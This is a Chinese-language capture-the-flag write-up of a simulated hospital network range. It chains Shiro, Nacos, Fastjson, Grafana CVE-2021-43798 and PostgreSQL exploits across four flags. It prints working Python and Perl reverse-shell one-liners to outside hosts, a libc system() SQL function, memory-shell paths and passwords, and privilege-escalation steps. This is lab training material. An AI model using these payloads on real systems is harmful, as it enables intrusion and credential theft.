

# 靶机介绍

在这个场景中，你将扮演一名渗透测试工程师，被派遣去测试某家医院的网络安全性。你的目标是成功获取所有服务器的权限，以评估公司的网络安全状况。该靶场共有 4 个flag，分布于不同的靶机。

# Flag1

拿到目前机器的ip，先用fscan探测一下


开放了8080端口，是一个shiro框架，并且有heapdump泄漏

尝试爆破shiro的密钥，失败了，看看这里的heapdump里面有什么东西，可能会有shirokey


用工具分析一下heapdump文件，使用 [whwlsfb/JDumpSpider](https://github.com/whwlsfb/JDumpSpider) 分析 heapdump 文件，将自动查找 `/actuator/env` 中的 `*` 内容进行显示，感觉会比heapdump_tool好用一点


拿到密钥用shiro的工具爆破一下利用链


注入一个冰蝎的内存马，看看有没有suid提权


发现vim.basic有suid权限，这个就相当于我们可以以root的身份编辑文件了，可以尝试写ssh的authorized_keys

但是需要获取一个交互式的shell，我用bash并没有反弹成功，考虑python或者perl

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.93.248.221",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

继续升级到交互式shell
python3 -c "import pty;pty.spawn('/bin/bash')"
```

写入ssh

```
vim.basic /root/.ssh/authorized_keys
```

`:1,$d`清除所有内容，`:i`进入编辑模式，写入后`wq!`强制保存


# Flag2

上传fscan对内网进行扫描


发现了一个nacos并且存在未授权添加用户的漏洞，配置代理后访问一下，都不用添加用户，直接弱口令登录后台

可以尝试jraft的反序列化，但是这个靶场挺久了，很有可能是直接打snakeyaml的反序列化

并且这里有一个db-config的配置


先拿出来，可能后面有用，因为打snakeyaml的反序列化的话会替换这里的数据

```
server:
  port: 8080
  servlet:
    context-path: /hello

spring:
  application:
    name: db-config
  cloud:
    nacos:
      discovery:
        server-addr: 127.0.0.1:8848
      config:
        server-addr: 127.0.0.1:8848
        file-extension: yaml
        namespace: dev
        group: DEFAULT_GROUP
        data-id: db-config.yaml
  datasource:
    mysql:
      url: jdbc:mysql://localhost:3306/test?useSSL=false&serverTimezone=UTC&allowPublicKeyRetrieval=true
      username: root
      password: P@ssWord!!!
  redis:
    host: localhost
    port: 6379

management:
  endpoints:
    web:
      exposure:
        include: '*'

```

fscan识别到这台机器是windows，所以添加一个账户，可以再探测一下3389开启没有


在shiro的机器上收到请求


rdp登录一下这个机器



拿到flag2

# Flag3

在之前的扫描中，还发现了另外一台机器`http://172.30.12.236:8080`


也是一个后台管理平台，登录包是一个json


去掉一个括号报错，发现了fastjson和tomcat


尝试直接用burp的插件进行内存马注入


注入了一个哥斯拉的内存马，路径http://172.30.12.236:8080/supersb，密码supersb，默认密钥key


拿到flag3


# Flag4

一共有四个flag，继续收集信息，发现fastjson这台机器是双网卡


继续配置代理


继续上传fscan扫描内网


发现了http://172.30.54.12:3000，访问看到是grafana


需要利用 CVE-2021-43798 漏洞获取到数据库文件（/var/lib/grafana/grafana.db）以及存在解密密钥的配置文件（/etc/grafana/grafana.ini），然后进行解密。

使用 [A-D-Team/grafanaExp](https://github.com/A-D-Team/grafanaExp) 可以一键利用漏洞解密输出 data_souce 信息，这里我用mac跑的时候报错了，可以上传到fastjson的机器上运行

```
root@web03:~# ./grafanaExp_linux_amd64 exp -u http://172.30.54.12:3000
2023/12/29 17:41:34 Target vulnerable has plugin [alertlist]
2023/12/29 17:41:34 Got secret_key [SW2YcwTIb9zpOOhoPsMm]
2023/12/29 17:41:34 There is [0] records in db.
2023/12/29 17:41:34 type:[postgres]     name:[PostgreSQL]               url:[localhost:5432]    user:[postgres] password[Postgres@123]database:[postgres]      basic_auth_user:[]      basic_auth_password:[]
2023/12/29 17:41:34 All Done, have nice day!
```

PostgreSQL 8.1 及之前版本执行系统命令可以直接使用 Linux 中的 libc.so.6 文件，本来想用MDUT直接执行，但是不知道为什么我的一直报错，就用navicat来执行，猜测一下libc.so.6的路径

一般为如下几个位置：

- `/lib/x86_64-linux-gnu/libc.so.6`
- `/lib/libc.so.6`
- `/lib64/libc.so.6`
- `/usr/lib/x86_64-linux-gnu/libc.so.6`
- `/usr/lib32/libc.so.6`

用navicat连接

```
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;

select system('whoami');
#	看不到回显

# 给fastjson的机器上传一个nc，用perl反弹shell
select system('perl -e \'use Socket;$i="172.30.54.179";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'');
```

这里还需要给postgresql的root用户进行修改密码的操作，为了方便后面提权

```
ALTER USER root WITH PASSWORD '123456';
```

给fastjson的机器写入了sshkey


上传nc，接收到了shell，发现psql可以直接sudo运行，https://gtfobins.github.io/gtfobins/psql/

psql运行时可以输入`\?`执行系统命令

运行时需要密码，就是我们修改的postgresql的root用户的密码

这里有两个注意点：

- 运行时用绝对路径
- 用修改的root用户的密码进行验证


参考链接：

https://h0ny.github.io/posts/Hospital-%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83/#spring-boot-heapdump--shiro-deserialization

https://lca.xlog.app/chun-qiu-yun-jing-fang-zhen-ba-chang-Hospital-shi-cao?locale=zh

https://fushuling.com/index.php/2024/01/06/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83-hospital/

https://xz.aliyun.com/t/13463?